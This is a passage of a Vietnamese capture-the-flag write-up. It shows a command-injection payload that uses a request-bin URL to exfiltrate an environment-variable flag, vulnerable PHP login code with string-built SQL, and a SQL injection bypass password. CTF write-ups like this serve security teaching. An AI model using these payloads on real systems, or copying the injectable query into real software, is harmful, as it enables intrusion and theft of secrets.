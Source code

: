 ```php
show_source(__FILE__);
```

Bài này flag được set ở biến env FLAG, do đó ta sẽ  dùng lệnh `echo $FLAG` để in ra.

Để lấy flag, ta có thể cho nó curl về request bin với tham số là giá trị của flag như sau:
`
http://45.122.249.68:20019/?input_data=https://eov5gzrmq5p9826.m.pipedream.net?flag=$(echo $FLAG)
`

Kết quả:
![](/W1CTF/minictf/images/head2.png)

### dejavu

Chall này tương tự như chall training.

Đầu tiên ta cần đăng nhập vào với tài khoản `admin` để có thêm chức năng của `news.php`. Code login:
```php
if ($_SERVER['REQUEST_METHOD'] === 'POST' && isset($_POST['username']) && isset($_POST['username'])) 
    {
        $username = $_POST['username'];
        $password = $_POST['password'];  
        $query = "SELECT * FROM users WHERE username='$username' AND password='$password'";
        $result = pg_query($connection, $query);  
        if (pg_num_rows($result) == 1) 
        {
            $_SESSION['loggedin'] = true;
            $_SESSION['username'] = $username;
            header('Location: news.php');
        } 
        else 
        {
            header('Location: index.php');
        }
    }
```

Từ code login, ta có thể dễ dàng đăng nhập với:
- username là `admin`
- password là `'or 1=1 limit 1-- -`
